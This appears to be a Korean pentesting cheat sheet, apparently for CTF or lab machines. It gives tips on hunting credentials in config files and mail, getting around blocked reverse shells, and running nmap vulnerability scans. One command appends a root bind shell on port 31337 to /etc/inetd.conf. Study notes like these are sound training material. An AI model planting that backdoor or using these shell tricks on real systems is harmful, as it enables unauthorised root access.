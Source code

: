 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
- github에서 `"$pass"`로 pass 변수 찾기
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.

```bash
sudo nmap -Pn <ip>
```
- ping 테스트가 안되더라도 서버가 열려있을 수 있으니 확인
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
